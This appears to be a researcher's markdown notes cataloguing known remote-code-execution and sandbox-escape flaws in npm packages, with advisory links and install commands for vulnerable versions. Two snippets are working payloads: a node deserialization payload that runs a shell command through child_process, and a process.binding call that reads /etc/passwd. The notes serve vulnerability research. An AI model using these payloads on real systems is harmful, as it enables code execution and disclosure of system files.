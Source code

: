 
To see all versions of a package:

`npm view <package-name>`


### Serialize js 
**Lya does work**
https://snyk.io/vuln/npm:serialize-to-js:20170208
`npm i serialize-to-js@0.8`

```JavaScript
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```


### Node Serialize
**works**
https://snyk.io/test/npm/node-serialize/0.0.4

`npm install node-serialize`


### Serialize JavaScript

https://snyk.io/vuln/SNYK-JS-SERIALIZEJAVASCRIPT-570062

`npm i serialize-javascript@3.0`


### Safer Eval
**Works**
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-534901  2019-10769
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-173772  2019-10759
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-473029  2019-10760

This needs dynamic analysis first.

### Safe Eval
https://snyk.io/vuln/npm:safe-eval:20170830 2017-16088
https://www.npmjs.com/advisories/1021

### Static Eval
**Works**
`npm i static-eval` (<2.0.0)

https://snyk.io/vuln/npm:static-eval:20171016    2017-16226
https://snyk.io/vuln/SNYK-JS-STATICEVAL-173693   ---

https://maustin.net/articles/2017-10/static_eval


### Fast Redact

https://itnext.io/how-i-exploited-a-remote-code-execution-vulnerability-in-fast-redact-9e69fa35572f

```
const buffer = Buffer.allocUnsafe(8192)
process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096)
console.log(buffer.toString())
```

### MathJS

https://snyk.io/vuln/npm:mathjs:20171118-1   2017-1001003
https://snyk.io/vuln/npm:mathjs:20170331     2017-0331s
https://snyk.io/vuln/npm:mathjs:20171118     2017-1001002
https://snyk.io/vuln/npm:mathjs:20170402    2017-0402s
https://snyk.io/vuln/npm:mathjs:20170527     2017-0527



Helper post:
https://capacitorset.github.io/mathjs/

### Morgan 

https://snyk.io/vuln/SNYK-JS-MORGAN-72579 2019-5413

PoC:
https://hackerone.com/reports/390881

### fs-path

https://snyk.io/vuln/npm:fs-path:20180512


### Other Notes

(For Nikos: https://github.com/bkimminich/juice-shop/issues/269)
